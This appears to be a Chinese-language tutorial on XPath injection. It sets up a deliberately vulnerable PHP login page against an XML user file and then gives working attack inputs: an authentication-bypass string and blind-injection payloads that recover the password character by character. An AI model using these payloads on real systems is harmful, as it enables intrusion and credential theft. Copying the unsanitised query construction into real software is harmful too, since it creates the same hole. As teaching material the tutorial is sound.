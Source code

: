 **1、什么是xpath注入**

XPath是一种查询语言，它描述了如何在XML文档中查找特定元素（包括属性、处理指令等）。既然是一种查询语言，XPath在一些方面与SQL相似，不过，XPath的不同之处在于它可以用来引用XML文档的几乎任何部分，而不受访问控制限制。在SQL中，一个“用户”（在XPath/XML上下文中未定义的术语）的权限被限制在一个特定的数据库，表，列或者行。使用XPath注入攻击，攻击者可以修改XPath查询语句来执行所选择的操作

XPath盲注攻击可以从一个使用不安全方式嵌入用户信息的应用中提取数据。在输入未被过滤的情况下，攻击者可以提交并执行有效的XPath代码。这种类型的攻击适用于以下情况：攻击者不清楚XML文档的架构，或者错误消息被抑制，一次只能通过布尔化查询来获取部分信息，就像SQL盲注一样。

**2、案例**

xpath_user.xml 文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<users>
<user id="1" username="admin" password="admin"></user>
<user id="2" username="root" password="admin"></user>
<user id="3" username="system" password="system"></user>
</users>
```

漏洞测试文件

```php+HTML
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
	</head>
	<body>
			<form method="POST">
				用户名：<input type="text" name="username"><br>
			 	密码：<input type="password" name="password"><br>
			 	<input type="submit" value="登录" name="submit">
			</form>
	</body>
</html>

<?php
if(file_exists('xpath_user.xml')){
	$xml=simplexml_load_file('xpath_user.xml');
	if($_POST['submit']){
		$username=$_POST['username'];
		$password=$_POST['password'];
		$sql="//user[@username='{$username}' and @password='{$password}']";
		$resulit = $xml->xpath($sql);
		if(count($resulit)==0){
			echo '登录失败';
		}else{
			echo "登录成功";
		}
	}	
	}
?>
```

```php+HTML
$sql="//user[@username='{$username}' and @password='{$password}']";
select * from users where username=’username’ and password=’password’
```

**4、注入方法**

万能密码登录 

```bash
admin' or '1'='1
username=admin' or '1'='1 &password=xxxxxxxxxxx&submit=submit
```

![img](../acess/wps3.jpg) 

**5、盲注入**

string-length()获取字符长度

substring 截取字符

```bash
username=admin'and string-length(@password)=5 or '1'='1&password=0&submit=submit
```

返回正确是就等于登录成功

```bash
username=admin'and substring(@password,1,1)='a' or '1'='1&password=0&submit=submit
```

![img](../acess/wps4.jpg) 

先获取第一个字符 再获取第二个。admin